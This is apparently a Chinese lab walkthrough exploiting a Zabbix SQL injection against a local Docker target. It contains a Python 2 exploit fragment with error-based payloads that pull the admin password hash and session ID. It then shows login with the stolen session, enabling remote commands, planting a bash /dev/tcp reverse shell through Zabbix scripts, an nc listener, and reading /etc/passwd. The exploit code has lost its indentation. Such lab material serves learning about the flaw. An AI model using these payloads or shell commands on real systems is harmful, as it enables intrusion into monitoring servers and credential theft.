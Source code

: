 ```
passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
if deteck_Sql():
print u'Zabbix 存在 SQL 注入漏洞！\n'
print u'管理员 用户名密码：%s' % sql_Inject(passwd_sql)
print u'管理员 Session_id：%s' % sql_Inject(session_sql)
else:
print u'Zabbix 不存在 SQL 注入漏洞！\n'
```  
```
python2 exploit.py http://192.168.14.128:8080/
```  
  
根据得到的用户名密码登录，或者通过修改zbx_sessionid登录后台。  
  
**getshell**准备：在靶机的配置文件zabbix_agentd.conf中添加EnableRemoteCommands = 1  
```
docker ps # 查看agent的容器id
docker exec -it 9344458704f9 /bin/sh # 进入容器
vi /etc/zabbix/zabbix_agentd.conf # 添加EnableRemoteCommands = 1
docker restart 9344458704f9 # 重启容器
```  
  
（1）以管理员身份登录后台后，依次点击Administrator-->scrip-->creatscript  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFkz0ckXJszLjth76IKbK18iaibPjrwSuggmIp8ZLApcgAlnDDnxViavuPQ/640?wx_fmt=png "")  
  
（2）在commands中写入反弹shell命令，点击Add  
```
bash -i >& /dev/tcp/ip/port 0>&1 # ip和port为攻击者的ip和开启的端口
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFuu1qTQFxnic6yLaBKwgSdcr0qWbpgoiaSwFtgKias3F7H9tzricicBu2icDQ/640?wx_fmt=png "")  
  
（3）保存创建的script后依次点击Monitroing-Latest data，选择Host groups的select，全选。再点击Filter-->Zabbix server，选择刚刚创建的shell即可。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFHNTVfECEOdmKI70E7lFYoJ52ziajWEPTCBj73yNvNRLFraey5Q5eO0g/640?wx_fmt=png "")  
  
在攻击机上开启监听。但我这里没弹回来。  
```
nc -lvp port
```  
  
（4）虽然没有弹回shell，但依然存在命令执行。修改原来保存的shell或者再创建一个test，执行后可看到效果。  
```
cat /etc/passwd
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW6iaS4QIpvF3kDBibJiaYKljFPV7a8qOjDPKia4rLG4yxpySanrIuianYpJocf6syiaZ2jOkLzF9SHFQyQ/640?wx_fmt=png "")  
  